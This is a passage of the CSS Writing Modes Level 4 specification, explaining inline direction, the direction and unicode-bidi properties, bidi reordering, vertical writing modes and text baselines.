CSS Writing Modes Level 4 defines CSS features to support for various international writing modes, such as left-to-right (e.g. Latin or Indic), right-to-left (e.g. Hebrew or Arabic), bidirectional (e.g. mixed Latin and Arabic) and vertical (e.g. Asian scripts).

A **writing mode** in CSS is determined by the `writing-mode`, `direction`, and `text-orientation` properties. It is defined primarily in terms of its inline base direction and block flow direction:

[](../css-writing-modes-4/diagrams/text-flow-vectors-tb.svg)

Latin-based writing mode

[](../css-writing-modes-4/diagrams/text-flow-vectors-lr-reverse.svg)

Mongolian-based writing mode

[](../css-writing-modes-4/diagrams/text-flow-vectors-tb.svg)  [](../css-writing-modes-4/diagrams/text-flow-vectors-rl.svg)

Han-based writing modes

The **inline base direction** is the primary direction in which content is ordered on a line and defines on which sides the “start” and “end” of a line are. The `direction` property specifies the inline base direction of a box and, together with the `unicode-bidi` property and the inherent directionality of any text content, determines the ordering of inline-level content within a line.

The **block flow direction** is the direction in which block-level boxes stack and the direction in which line boxes stack within a block container. The `writing-mode` property determines the block flow direction.

Writing systems typically have one or two native writing modes. Some examples are:

- Latin-based systems are typically written using a left-to-right inline direction with a downward (top-to-bottom) block flow direction.
- Arabic-based systems are typically written using a right-to-left inline direction with a downward (top-to-bottom) block flow direction.
- Mongolian-based systems are typically written using a top-to-bottom inline direction with a rightward (left-to-right) block flow direction.
- Han-based systems are commonly written using a left-to-right inline direction with a downward (top-to-bottom) block flow direction, **or** a top-to-bottom inline direction with a leftward (right-to-left) block flow direction. Many magazines and newspapers will mix these two writing modes on the same page.

A **horizontal writing mode** is one with horizontal lines of text, i.e. a downward or upward block flow. A **vertical writing mode** is one with vertical lines of text, i.e. a leftward or rightward block flow.

> **Note:** These terms should not be confused with **vertical block flow** (which is a downward or upward block flow) and **horizontal block flow** (which is leftward or rightward block flow). To avoid confusion, CSS specifications avoid this latter set of terms.

The **typographic mode** determines whether to use typographic conventions specific to vertical flow for vertical scripts (**vertical typographic mode**) or to use the typographic conventions of horizontal writing modes (**horizontal typographic mode**). This concept distinguishes vertical typesetting from rotated horizontal typesetting.

The `text-orientation` component of the writing mode controls the glyph orientation in vertical typographic modes, dictating whether a particular typographic character unit is typeset upright or typeset sideways.

> **Note:** See Unicode Technical Note #22 [UTN22] ([HTML version](http://fantasai.inkedblade.net/style/discuss/vertical-text/paper)) for a more in-depth introduction to writing modes and vertical text.

#### 1.1.  Module Interactions {#css-writing-modes-4:placement}

This module replaces and extends the `unicode-bidi` and `direction` features defined in [CSS2] sections 8.6 and 9.10. The interaction of its features with other text operations in setting lines of text is described in [CSS Text 3 § A Text Processing Order of Operations](#css-text-4:order).

The computed values of the `writing-mode`, `direction`, and `text-orientation` properties (even on elements to which these properties themselves don’t apply [CSS-CASCADE-4]) are broadly able to influence the computed values of other, unrelated properties through calculations such as the computation of font-relative lengths or the cascade of [flow-relative properties](#css-logical-1) which purposefully depend on the computed writing mode or on font metrics that can depend on the writing mode.

#### 1.2.  Value Definitions and Terminology {#css-writing-modes-4:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

Other important terminology and concepts used in this specification are defined in [CSS2] and [CSS-TEXT-3].

### 2.  Inline Direction and Bidirectionality {#css-writing-modes-4:text-direction}

While the characters in most scripts are written from left to right, certain scripts are written from right to left. In some documents, in particular those written with the Arabic or Hebrew script, and in some mixed-language contexts, text in a single (visually displayed) block may appear with mixed directionality. This phenomenon is called **bidirectionality**, or "bidi" for short.



Bidirectionality

The Unicode standard ([Unicode Standard Annex #9](http://www.unicode.org/reports/tr9/)) defines a complex algorithm for determining the proper ordering of bidirectional text. The algorithm consists of an implicit part based on character properties, as well as explicit controls for embeddings and overrides. CSS relies on this algorithm to achieve proper bidirectional rendering.

Two CSS properties, `direction` and `unicode-bidi`, provide explicit embedding, isolation, and override controls in the CSS layer. Because the base directionality of a text depends on the structure and semantics of the document, the `direction` and `unicode-bidi` properties should in most cases be used only to map bidi information in the markup to its corresponding CSS styles.

> **Note:** The HTML specifications ([HTML401], section 8.2, and [HTML § 15.3.5 Bidirectional text](https://html.spec.whatwg.org/multipage/rendering.html#bidi-rendering)) define bidirectionality behavior for HTML elements.

> **Advisement:** **If a document language provides markup features to control bidi, authors and users should use those features instead** and not specify CSS rules to override them.

#### 2.1.  Specifying Directionality: the `direction` property {#css-writing-modes-4:direction}

| Field | Value |
| --- | --- |
| Name: | **direction** |
| [Value:](#css-values-4:value-defs) | ltr \| rtl |
| [Initial:](#css-cascade-6:initial-values) | ltr |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

> **Advisement:** Because HTML UAs can turn off CSS styling, **we recommend HTML authors to use the HTML `dir` attribute and <bdo> element** to ensure correct bidirectional layout in the absence of a style sheet. **Authors *should not* use `direction` in HTML documents.**

This property specifies the inline base direction or directionality of any bidi paragraph, embedding, isolate, or override established by the box. (See `unicode-bidi`.) In addition, it informs the ordering of [table](#css2) column layout, the direction of horizontal [overflow](#css2:overflow), and the default alignment of text within a line, and other layout effects that depend on the box’s inline base direction.

Values for this property have the following meanings:

****ltr****

: This value sets inline base direction (bidi directionality) to line-left-to-line-right.

****rtl****

: This value sets inline base direction (bidi directionality) to line-right-to-line-left.

> **Note:** The `direction` property has no effect on bidi reordering when specified on inline boxes whose `unicode-bidi` value is `normal`, because the box does not open an additional level of embedding with respect to the bidirectional algorithm.

> **Note:** The `direction` property, when specified for table column boxes, is not inherited by cells in the column since columns are not the ancestors of the cells in the document tree. Thus, CSS cannot easily capture the "dir" attribute inheritance rules described in [HTML401], section 11.3.2.1.

#### 2.2.  Embeddings and Overrides: the `unicode-bidi` property {#css-writing-modes-4:unicode-bidi}

| Field | Value |
| --- | --- |
| Name: | **unicode-bidi** |
| [Value:](#css-values-4:value-defs) | normal \| embed \| isolate \| bidi-override \| isolate-override \| plaintext |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | all elements, but see prose |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

> **Advisement:** Because HTML UAs can turn off CSS styling, **we recommend HTML authors to use the HTML `dir` attribute, <bdo> element, and appropriate distinction of text-level vs. grouping-level HTML element types** to ensure correct bidirectional layout in the absence of a style sheet. **Authors *should not* use `unicode-bidi` in HTML documents.**

Normally (i.e. when `unicode-bidi` is `normal`) an inline box is transparent to the unicode bidi algorithm; content is ordered as if the box’s boundaries were not there. Other values of the `unicode-bidi` property cause inline boxes to create scopes within the algorithm, and to override the intrinsic directionality of text.

The following informative table summarizes the box-internal and box-external effects of `unicode-bidi`:

|  | Outside |  |  |
| --- | --- | --- | --- |
| strong | neutral |  |  |
| Inside | scoped | `embed` | `isolate` |
| override | `bidi-override` | `isolate-override` |  |
| plaintext | — | `plaintext` |  |

Values for this property have the following (normative) meanings:

****normal****

: The box does not open an additional level of embedding with respect to the bidirectional algorithm. For inline boxes, implicit reordering works across box boundaries.

****embed****

: If the box is inline, this value creates a **directional embedding** by opening an additional level of embedding with respect to the bidirectional algorithm. The direction of this embedding level is given by the `direction` property. Inside the box, reordering is done implicitly.

  > **Note:** This value has no effect on boxes that are not inline.

****isolate****

: On an inline box, this **bidi-isolates** its contents. This is similar to a directional embedding (and increases the embedding level accordingly) except that each sequence of inline-level boxes uninterrupted by any block boundary or forced paragraph break is treated as an **isolated sequence**:

  - the content within the sequence is ordered as if inside an independent paragraph with the base directionality specified by the box’s `direction` property.
  - for the purpose of bidi resolution in its containing bidi paragraph, the sequence is treated as if it were a single Object Replacement Character (U+FFFC).

  In effect, neither is the content inside the box bidi-affected by the content surrounding the box, nor is the content surrounding the box bidi-affected by the content or specified directionality of the box. However, forced paragraph breaks within the box still create a corresponding break in the containing paragraph.

  > **Note:** This value has no effect on boxes that are not inline.

****bidi-override****

: This value puts the box’s immediate inline content in a **directional override**. For an inline, this means that the box acts like a directional embedding in the bidirectional algorithm, except that reordering within it is strictly in sequence according to the `direction` property; the implicit part of the bidirectional algorithm is ignored. For a block container, the override is applied to an anonymous inline box that surrounds all of its content.

****isolate-override****

: This combines the isolation behavior of `isolate` with the directional override behavior of `bidi-override`: to surrounding content, it is equivalent to `isolate`, but within the box content is ordered as if `bidi-override` were specified. It effectively nests a directional override inside an isolated sequence.

****plaintext****

: This value behaves as `isolate` except that for the purposes of the Unicode bidirectional algorithm, the base directionality of each of the box’s bidi paragraphs (if a block container) or isolated sequences (if an inline) is determined by following the heuristic in rules P2 and P3 of the Unicode bidirectional algorithm (rather than by using the `direction` property of the box).

Following Unicode Bidirectional Algorithm clause HL3 [UAX9], values other than `normal` effectively insert the corresponding Unicode bidi control codes into the text stream at the start and end of the inline element before passing the paragraph to the Unicode bidirectional algorithm for reordering. (See [§ 2.4.2 CSS–Unicode Bidi Control Translation, Text Reordering](#css-writing-modes-4:bidi-control-codes).)

| `unicode-bidi` value | `direction` value |  |  |  |
| --- | --- | --- | --- | --- |
| `ltr` | `rtl` |  |  |  |
| start | end | start | end |  |
| `normal` | — | — | — | — |
| `embed` | LRE (U+202A) | PDF (U+202C) | RLE (U+202B) | PDF (U+202C) |
| `isolate` | LRI (U+2066) | PDI (U+2069) | RLI (U+2067) | PDI (U+2069) |
| `bidi-override`* | LRO (U+202D) | PDF (U+202C) | RLO (U+202E) | PDF (U+202C) |
| `isolate-override`* | FSI,LRO (U+2068,U+202D) | PDF,PDI (U+202C,U+2069) | FSI,RLO (U+2068,U+202E) | PDF,PDI (U+202C,U+2069) |
| `plaintext` | FSI (U+2068) | PDI (U+2069) | FSI (U+2068) | PDI (U+2069) |
| * The LRO/RLO+PDF pairs are also applied to the root inline box of a block container if these values of `unicode-bidi` were specified on the block container. |  |  |  |  |

> **Note:** Because the `unicode-bidi` property does not inherit, setting `bidi-override` or `plaintext` on a block box will not affect any descendant blocks. Therefore these values are best used on blocks and inlines that do not contain any block-level structures.

> **Note:** that `unicode-bidi` does not affect the `direction` property even in the case of `plaintext`, and thus does not affect `direction`-dependent layout calculations.

> **Note:** Because the Unicode algorithm has a limit of 125 levels of embedding, care should be taken not to overuse `unicode-bidi` values other than `normal`. In particular, a value of `inherit` should be used with extreme caution in deeply nested inline markup. However, for elements that are, in general, intended to be displayed as blocks, a setting of `unicode-bidi: isolate` is preferred to keep the element together in case the `display` is changed to `inline` (see example below).

#### 2.3.  Example of Bidirectional Text {#css-writing-modes-4:bidi-example}

The following example shows an XML document with bidirectional text. It illustrates an important design principle: document language designers should take bidi into account both in the language proper (elements and attributes) and in any accompanying style sheets. The style sheets should be designed so that bidi rules are separate from other style rules, and such rules should not be overridden by other style sheets so that the document language’s bidi behavior is preserved.

> **Example:** In this example, lowercase letters stand for inherently left-to-right characters and uppercase letters represent inherently right-to-left characters. The text stream is shown below in logical backing store order.
>
> ```
> <section dir=rtl>
>   <para>HEBREW1 HEBREW2 english3 HEBREW4 HEBREW5</para>
>   <para>HEBREW6 <emphasis>HEBREW7</emphasis> HEBREW8</para>
> </section>
> <section dir=ltr>
>   <para>english9 english10 english11 HEBREW12 HEBREW13</para>
>   <para>english14 english15 english16</para>
>   <para>english17 <quote dir=rtl>HEBREW18 english19 HEBREW20</quote></para>
> </section>
> ```
>
> Since this is arbitrary XML, the style sheet is responsible for setting the writing direction. This is the style sheet:
>
> ```
> /* Rules for bidi */
> [dir=rtl] {direction: rtl; unicode-bidi: isolate; }
> [dir=ltr] {direction: ltr; unicode-bidi: isolate; }
>
> /* Rules for presentation */
> section, para  {display: block;}
> emphasis       {font-weight: bold;}
> quote          {font-style: italic;}
> ```
>
> If the line length is long, the formatting of this text might look like this:
>
> ```
>                5WERBEH 4WERBEH english3 2WERBEH 1WERBEH
>
>                                 8WERBEH 7WERBEH 6WERBEH
>
> english9 english10 english11 13WERBEH 12WERBEH
>
> english14 english15 english16
>
> english17 20WERBEH english19 18WERBEH
> ```
>
> The first `<section>` element is a block with a right-to-left base direction, the second `<section>` element is a block with a left-to-right base direction. The `<para>`s are blocks that inherit the base direction from their parents. Thus, the first two `<para>`s are read starting at the top right, the final three are read starting at the top left.
>
> The `<emphasis>` element is inline-level, and since its value for `unicode-bidi` is `normal` (the initial value), it has no effect on the ordering of the text.
>
> The `<quote>` element, on the other hand, creates an isolated sequence with the given internal directionality. Note that this causes `HEBREW18` to be to the right of `english19`.
>
> If lines have to be broken, the same text might format like this:
>
> ```
>        2WERBEH 1WERBEH
>   -EH 4WERBEH english3
>                  5WERB
>
>    -EH 7WERBEH 6WERBEH
>                  8WERB
>
> english9 english10 en-
> glish11 12WERBEH
> 13WERBEH
>
> english14 english15
> english16
>
> english17 18WERBEH
> 20WERBEH english19
> ```
>
> Notice that because `HEBREW18` must be read before `english19`, it is on the line above `english19`. Just breaking the long line from the earlier formatting would not have worked.
>
> Note also that the first syllable from `english19` might have fit on the previous line, but hyphenation of left-to-right words in a right-to-left context, and vice versa, is usually suppressed to avoid having to display a hyphen in the middle of a line.

#### 2.4.  Applying the Bidirectional Reordering Algorithm {#css-writing-modes-4:bidi-algo}

User agents that support bidirectional text must apply the Unicode bidirectional algorithm to every sequence of inline-level boxes uninterrupted by any block boundary or “[bidi type B](http://www.unicode.org/reports/tr9/#Bidirectional_Character_Types)” **forced paragraph break**. This sequence forms the **paragraph** unit in the bidirectional algorithm.

##### 2.4.1.  Bidi Paragraph Embedding Levels {#css-writing-modes-4:bidi-para-direction}

In CSS, the paragraph embedding level must be set (following [UAX9 clause HL1](http://www.unicode.org/reports/tr9/#HL1)) according to the `direction` property of the paragraph’s containing block rather than by the heuristic given in steps [P2](http://www.unicode.org/reports/tr9/#P2) and [P3](http://www.unicode.org/reports/tr9/#P2) of the Unicode algorithm.

There is, however, one exception: when the computed `unicode-bidi` of the paragraph’s containing block is `plaintext`, the Unicode heuristics in P2 and P3 are used as described in [UAX9], without the HL1 override.

##### 2.4.2.  CSS–Unicode Bidi Control Translation, Text Reordering {#css-writing-modes-4:bidi-control-codes}

The final order of characters within each bidi paragraph is the same as if the bidi control codes had been added as described for `unicode-bidi` (above), markup had been stripped, and the resulting character sequence had been passed to an implementation of the Unicode bidirectional algorithm for plain text that produced the same line-breaks as the styled text.

> **Note:** that bidi control codes in the source text are still honored, and might not correspond to the document tree structure. This can split inlines or interfere with bidi start/end control pairing in interesting ways.

##### 2.4.3.  Bidi Treatment of Atomic Inlines {#css-writing-modes-4:bidi-atomic-inlines}

In this process, replaced elements with `display: inline` are treated as neutral characters, unless their `unicode-bidi` property is either `embed` or `bidi-override`, in which case they are treated as strong characters in the `direction` specified for the element. (This is so that, in case the replaced element falls back to rendering inlined text content, its bidi effect on the surrounding text is consistent with its replaced rendering.)

All other atomic inline-level boxes are treated as neutral characters always.

##### 2.4.4.  Paragraph Breaks Within Embeddings and Isolates {#css-writing-modes-4:bidi-embedding-breaks}

If an inline box is broken around a bidi paragraph boundary (e.g. if split by a block or forced paragraph break), then the [HL3](http://www.unicode.org/reports/tr9/#HL3) bidi control codes assigned to the end of the box are also added before the interruption and the codes assigned to the start of the box are also added after it. (In other words, any embedding levels, isolates, or overrides started by the box are closed at the paragraph break and reopened on the other side of it.)

> **Example:** For example, where <BR/> is a forced paragraph break the bidi ordering is identical between
>
> ```
> <para>...<i1><i2>...<BR/>...</i2></i1>...</para>
> ```
>
> and
>
> ```
> <para>...<i1><i2>...</i2></i1><BR/><i1><i2>...</i2></i1>...</para>
> ```
>
> for all values of `unicode-bidi` on inline elements <i1> and <i2>.

> **Note:** that this behavior is applied by CSS for CSS-declared bidi controls applied to the box tree; it does not apply to Unicode’s bidi formatting controls, which are defined to terminate their effect at the end of the bidi paragraph.

##### 2.4.5.  Reordering-induced Box Fragmentation {#css-writing-modes-4:bidi-box-model}

Since bidi reordering can split apart and reorder text that is logically contiguous, bidirectional text can cause an inline box containing such text to be split and its fragments reordered within a line.

###### 2.4.5.1.  Conditions of Reordering-induced Box Fragmentation {#css-writing-modes-4:bidi-fragmentation}

When bidi reordering would split apart an inline box due to intervening content, the inline box is considered to be broken into multiple box fragments. [CSS-BREAK-3] The box is considered to be thus fragmented if it would be divided by intervening content on an infinitely long line, even if line breaking happens to result in both box fragments being placed adjacent to each other on the line. In such cases, the nearest common ancestor of text in the two box fragments (which determines certain aspects of text formatting such as tracking and [justification](#css-text-4:text-justify-property) between the two box fragments, see [CSS-TEXT-3]) is considered to be the nearest common ancestor of the two box fragments, not the inline box itself. However, an inline box is not considered to be broken into multiple box fragments due to bidi reordering if no intervening content would force it to split. (These rules maintain the integrity of an inline box where possible, while keeping bidi-induced fragmentation stable across variations in line-breaking.)

> **Example:** In the following example, where lowercase letters represent LTR letters and uppercase letters represent RTL letters, bidi reordering causes the `<em>`’s inline box to be divided into two box fragments separated by text outside the `<em>`.
>
> Source code (logical order):
>
> ```
> <p>here is <em>some MIXED</em> TEXT.</p>
> ```
>
> Rendering (visual order) in a wide containing block, resulting in two inline box fragments separated by external content:
>
> ```
> here is some TXET DEXIM.
> ```
>
> Rendering (visual order) in a narrow containing block, resulting in two inline box fragments placed adjacent to each other:
>
> ```
> here is some DEXIM
> TXET.
> ```

> **Example:** By contrast, in this example, where the mixed-direction phrase is kept together with an isolation, only one fragment is generated—​the surrounding content will never split the `<em>`’s inline box even inside an infinitely-long containing block:
>
> Source code (logical order):
>
> ```
> <p>here is <em dir=rtl>some MIXED</em> TEXT.</p>
> ```
>
> Rendering (visual order) in a wide containing block, resulting in one fragment:
>
> ```
> here is some DEXIM TXET.
> ```
>
> Rendering (visual order) in a narrow containing block, resulting in one fragment:
>
> ```
> here is some DEXIM
> TXET.
> ```

###### 2.4.5.2.  Box Model of Reordering-induced Box Fragments {#css-writing-modes-4:bidi-fragment-boxes}

For each line box, UAs must take the fragments of each inline box and assign the margins, borders and padding in visual order (not logical order). The start-most fragment on the first line box in which the box appears has the start edge’s margin, border, and padding; and the end-most fragment on the last line box in which the box appears has the end edge’s margin, border, and padding. For example, in the `horizontal-tb` writing mode:

- When the parent’s `direction` property is `ltr`, the left-most box fragment on the first line box in which the box appears has the left margin, left border and left padding, and the right-most box fragment on the last line box in which the box appears has the right padding, right border and right margin.
- When the parent’s `direction` property is `rtl`, the right-most fragment of the first line box in which the box appears has the right padding, right border and right margin, and the left-most fragment of the last line box in which the box appears has the left margin, left border and left padding.

Analogous rules hold for vertical writing modes.

> **Note:** The `box-decoration-break` property can override this behavior to draw box decorations on both sides of each fragment. [CSS-BREAK-3]

### 3.  Vertical Writing Modes {#css-writing-modes-4:vertical-modes}

In addition to extensions to CSS2.1’s support for bidirectional text, this module introduces the rules and properties needed to support vertical text layout in CSS.

#### 3.1.  Introduction to Vertical Writing {#css-writing-modes-4:vertical-intro}

*This subsection is non-normative.*

Unlike languages that use the Latin script which are primarily laid out horizontally, Asian languages such as Chinese and Japanese can be laid out vertically. The Japanese example below shows the same text laid out horizontally and vertically. In the horizontal case, text is read from left to right, top to bottom. For the vertical case, the text is read top to bottom, right to left. Indentation from the left edge in the left-to-right horizontal case translates to indentation from the top edge in the top-to-bottom vertical case.


Comparison of vertical and horizontal Japanese: iBunko application (iOS)

> **Note:** For Chinese and Japanese lines are ordered either right to left or top to bottom, while for Mongolian and Manchu lines are ordered left to right.

The change from horizontal to vertical writing can affect not just the layout, but also the typesetting. For example, the position of a punctuation mark within its spacing box can change from the horizontal to the vertical case, and in some cases alternate glyphs are used.

Vertical text that includes Latin script text or text from other scripts normally displayed horizontally can display that text in a number of ways. For example, Latin words can be rotated sideways, or each letter can be oriented upright:



Examples of Latin in vertical Japanese: Daijirin Viewer 1.4 (iOS)

In some special cases such as two-digit numbers in dates, text is fit compactly into a single vertical character box:


Mac Fan, December 2010, p.49

Layouts often involve a mixture of vertical and horizontal elements:



Mixture of vertical and horizontal elements

Vertical text layouts also need to handle bidirectional text layout; clockwise-rotated Arabic, for example, is laid out bottom-to-top.

#### 3.2.  Block Flow Direction: the `writing-mode` property {#css-writing-modes-4:block-flow}

| Field | Value |
| --- | --- |
| Name: | **writing-mode** |
| [Value:](#css-values-4:value-defs) | horizontal-tb \| vertical-rl \| vertical-lr \| sideways-rl \| sideways-lr |
| [Initial:](#css-cascade-6:initial-values) | horizontal-tb |
| [Applies to:](#css-cascade-5:applies-to) | All elements except table row groups, table column groups, table rows, table columns, ruby base containers, ruby annotation containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | specified value |
| [Canonical order:](#cssom-1:serializing-css-values) | n/a |
| [Animation type:](#web-animations-1:animation-type) | not animatable |

This property specifies whether lines of text are laid out horizontally or vertically and the direction in which blocks progress. Possible values:

****horizontal-tb****

: Top-to-bottom block flow direction. Both the writing mode and the typographic mode are horizontal.

****vertical-rl****

: Right-to-left block flow direction. Both the writing mode and the typographic mode are vertical.

****vertical-lr****

: Left-to-right block flow direction. Both the writing mode and the typographic mode are vertical.

****sideways-rl****

: Right-to-left block flow direction. The writing mode is vertical, while the typographic mode is horizontal.

****sideways-lr****

: Left-to-right block flow direction. The writing mode is vertical, while the typographic mode is horizontal.

The `writing-mode` property specifies the block flow direction, which determines the ordering direction of block-level boxes in a block formatting context; the ordering direction of line boxes in a block container that contains inlines; the ordering direction of rows in a table; etc. By virtue of determining the stacking direction of line boxes, the `writing-mode` property also determines whether the line boxes' orientation (and thus the writing mode) is horizontal or vertical. The `text-orientation` property then determines how text is laid out within the line box.

The content of replaced elements do not rotate due to the writing mode: images and external content such as from `<iframe>`s, for example, remain upright, and the default object size of 300px×150px does not re-orient. However embedded replaced content involving text (such as MathML content or form elements) should match the replaced element’s writing mode and line orientation if the UA supports such a vertical writing mode for the replaced content.

> **Example:** In the following example, two block elements (1 and 3) separated by an image (2) are presented in various flow writing modes.
>
> Here is a diagram of horizontal writing mode (`writing-mode: horizontal-tb`):
>
> 
>
> Here is a diagram for the right-to-left vertical writing mode commonly used in East Asia (`writing-mode: vertical-rl`):
>
> 
>
> And finally, here is a diagram for the left-to-right vertical writing mode used for Manchu and Mongolian (`writing-mode: vertical-lr`):
>
> 

> **Example:** In the following example, some form controls are rendered inside a block with `vertical-rl` writing mode. The form controls are rendered to match the writing mode.
>
> ```
> <style>
>   form { writing-mode: vertical-rl; }
> </style>
> ...
> <form>
> <p><label>姓名　<input value="艾俐俐"></label>
> <p><label>语言　<select><option>English
>                        <option>français
>                        <option>فارسی
>                        <option>中文
>                        <option>日本語</select></label>
> </form>
> ```
>
> 

If a box has a different `writing-mode` value than its parent box (i.e. nearest ancestor without `display: contents`):

- If the box would otherwise become an in-flow box with a computed `display` of `inline`, its `display` computes instead to `inline-block`.
- If the box is a block container, then it establishes an independent block formatting context.
- More generally, if its specified inner display type is `flow`, then its computed inner display type becomes `flow-root`. [CSS-DISPLAY-3]

> **Note:** As all other inherited CSS properties do, the `writing-mode` property inherits to SVG elements inlined (rather than linked) into the source document. This could cause unintentional side effects when, for example, an SVG image designed only for horizontal flow was embedded into a vertical flow document.
>
> Authors can prevent this from happening by adding the following rule:
>
> > **Example:** ```
> > svg { writing-mode: initial; }
> > ```

##### 3.2.1.  Obsolete SVG1.1 `writing-mode` Values {#css-writing-modes-4:svg-writing-mode}

SVG1.1 [SVG11] defines some additional values: `lr`, `lr-tb`, `rl`, `rl-tb`, `tb`, and `tb-rl`.

These values are *obsolete* in any context except SVG1 documents and are therefore *optional* for non-SVG UAs.

###### 3.2.1.1.  Supporting SVG1.1 `writing-mode` values in CSS syntax {#css-writing-modes-4:svg-writing-mode-css}

UAs that wish to support these values in the context of CSS must compute them as follows:

| Specified | Computed |
| --- | --- |
| `lr` | `horizontal-tb` |
| `lr-tb` |  |
| `rl` |  |
| `rl-tb` |  |
| `tb` | `vertical-rl` |
| `tb-rl` |  |

> **Note:** The SVG1.1 values were also present in an older of the CSS `writing-mode` specification, which is obsoleted by this specification. The additional `tb-lr` value of that revision is replaced by `vertical-lr`.

###### 3.2.1.2.  Supporting SVG1.1 `writing-mode` values in presentational attributes {#css-writing-modes-4:svg-writing-mode-markup}

In order to support legacy content with presentational attributes, and to allow authors to create documents that support older clients, SVG UAs must add the following style sheet rules to their default UA stylesheet:

```
@namespace svg "http://www.w3.org/2000/svg";
svg|*[writing-mode=lr], svg|*[writing-mode=lr-tb],
svg|*[writing-mode=rl], svg|*[writing-mode=rl-tb] {
  writing-mode: horizontal-tb; }
svg|*[writing-mode=tb], svg|*[writing-mode=tb-rl] {
  writing-mode: vertical-rl; }
```

> **Note:** Authors who wish to create forwards and backwards-compatible SVG content in CSS syntax can use the CSS forwards-compatible parsing rules to do so, e.g.
>
> ```
> svg|text { writing-mode: tb; writing-mode: vertical-rl; }
> ```

### 4.  Inline-level Alignment {#css-writing-modes-4:inline-alignment}

When different kinds of inline-level content are placed together on a line, the baselines of the content and the settings of the `vertical-align` property control how they are aligned in the transverse direction of the line box. This section discusses what baselines are, how to find them, and how they are used together with the `vertical-align` property to determine the alignment of inline-level content.

#### 4.1.  Introduction to Baselines {#css-writing-modes-4:intro-baselines}

*This section is non-normative.*

A **baseline** is a line along the inline axis of a line box along which individual glyphs of text are aligned. Baselines guide the design of glyphs in a font (for example, the bottom of most alphabetic glyphs typically align with the alphabetic baseline), and they guide the alignment of glyphs from different fonts or font sizes when typesetting.


Alphabetic text in two font sizes with the baseline and em-boxes

Different writing systems prefer different baseline tables.


Preferred baselines in various writing systems

A well-constructed font contains a **baseline table**, which indicates the position of one or more baselines within the font’s design coordinate space. (The design coordinate space is scaled with the font size.)


In a well-designed mixed-script font, the glyphs are positioned in the coordinate space to harmonize with one another when typeset together. The baseline table is then constructed to match the shape of the glyphs, each baseline positioned to match the glyphs from its preferred scripts.

The baseline table is a property of the font, and the positions of the various baselines apply to all glyphs in the font.

Different baseline tables can be provided for alignment in horizontal and vertical text. UAs should use the vertical tables in vertical typographic modes and the horizontal tables otherwise.

#### 4.2.  Text Baselines {#css-writing-modes-4:text-baselines}

In this specification, only the following baselines are considered:

**alphabetic**

: The **alphabetic baseline**, which typically aligns with the bottom of uppercase Latin glyphs.

**central**

: The ideographic **central baseline**, which typically crosses the center of the em box. If the font is missing this baseline, it is assumed to be halfway between the ascender (over) and descender (under) edges of the ideographic em box.

In vertical typographic mode, the central baseline is used as the dominant baseline when `text-orientation` is `mixed` or `upright`. Otherwise the alphabetic baseline is used.

> **Note:** A future CSS module will deal with baselines in more detail and allow the choice of other dominant baselines and alignment options.

#### 4.3.  Atomic Inline Baselines {#css-writing-modes-4:replaced-baselines}

If an [atomic inline](#css2:inline-boxes) (such as an inline-block, inline-table, or replaced inline element) does not have a baseline, then the UA synthesizes a baseline table thus:

**alphabetic**

: The alphabetic baseline is assumed to be at the under margin edge.

**central**

: The central baseline is assumed to be halfway between the under and over margin edges of the box.

> **Note:** The `vertical-align` property in [CSS2] defines the baseline of inline-table and inline-block boxes with some exceptions.

#### 4.4.  Baseline Alignment {#css-writing-modes-4:baseline-alignment}

The **dominant baseline** (which [can change](#css-writing-modes-4:text-baselines) based on the typographic mode) is used in CSS for alignment in two cases:

- **Aligning glyphs from different fonts within the same inline box.** The glyphs are aligned by matching up the positions of the dominant baseline in their corresponding fonts.
